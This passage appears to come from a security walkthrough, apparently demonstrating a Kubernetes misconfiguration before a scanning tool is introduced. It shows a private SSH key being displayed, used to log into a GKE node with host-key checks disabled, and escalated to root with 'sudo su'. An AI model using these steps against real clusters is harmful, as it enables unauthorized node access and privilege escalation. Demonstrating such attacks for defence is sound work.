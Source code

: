 ```
| .o . .  .       |
|Bo . .  S . . o  |
|..  o  . + + + . |
|o..o ...B * . .  |
|.++o..oB B . . o.|
|xo+oa=O=*    .o.o|
+----[SHA256]-----+
```

Now we can display the private key via `cat`:
```
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
<snip>
-----END OPENSSH PRIVATE KEY-----
```

We copy and paste this key to our local machine to the file `id_rsa` and now we can connect directly via `ssh` to the compromised node with the following command:

```
ssh -i id_rsa -o CheckHostIP=no -o StrictHostKeyChecking=no <username>@35.226.180.169
```
```
Welcome to Kubernetes v1.23.16-gke.1400!

You can find documentation for Kubernetes at:
  http://docs.kubernetes.io/

The source for this release can be found at:
  /home/kubernetes/kubernetes-src.tar.gz
Or you can download it at:
  https://storage.googleapis.com/kubernetes-release-gke/release/v1.23.16-gke.1400/kubernetes-src.tar.gz

It is based on the Kubernetes source at:
  https://github.com/kubernetes/kubernetes/tree/v1.23.16-gke.1400

For Kubernetes copyright and licensing information, see:
  /home/kubernetes/LICENSES
```

And we get `root` with a simple sudo:
```
<username>@gke-lunalectric-gke--lunalectric-pool-06b8ea4c-hnlj ~ $ sudo su
```
```
gke-lunalectric-gke--lunalectric-pool-06b8ea4c-hnlj /home/<username> # id
```
```
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),26(tape),27(video),1001(chronos-access)
```


## Mondoo scan commands
